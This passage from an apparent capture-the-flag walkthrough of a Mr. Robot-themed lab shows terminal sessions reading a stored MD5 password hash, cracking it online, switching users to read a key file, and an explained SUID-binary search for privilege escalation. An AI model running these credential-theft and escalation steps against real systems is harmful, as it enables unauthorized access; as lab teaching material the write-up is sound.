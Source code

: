 ```bash
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

A hash is found in `password.raw-md5`. Use [CrackStation](https://crackstation.net/) to crack it, revealing the password: **abcdefghijklmnopqrstuvwxyz**.

3. **Logging in as Robot**:  
Switch to the `robot` user with the cracked password:

```bash
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ ls
ls
key-2-of-3.txt	password.raw-md5
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

### Privilege Escalation to Root

**Finding SUID Binaries**:  
Use the following command to search for SUID binaries, which may allow privilege escalation:

```bash
find / -perm -u=s -type f 2>/dev/null
```


1. **`find`**: The `find` command is used to search for files and directories in a directory hierarchy.
    
2. **`/`**: This specifies the starting directory for the search. In this case, `/` means it will search the entire filesystem starting from the root directory.
    
3. **`-perm -u=s`**: This flag tells `find` to look for files with the **set-user-ID (SUID)** permission.
    
    - `-u=s`: Matches files where the SUID bit is set.
        - SUID allows a file to be executed with the privileges of the file owner, rather than the user who runs it.
4. **`-type f`**: This restricts the search to **regular files** only (not directories, symbolic links, or other types of files).
    
5. **`2>/dev/null`**:
    
    - `2>` redirects **stderr** (error messages).
    - `/dev/null` is a special file that discards all data written to it.
    - This part suppresses error messages (e.g., "Permission denied" messages) that may arise when trying to access restricted directories.
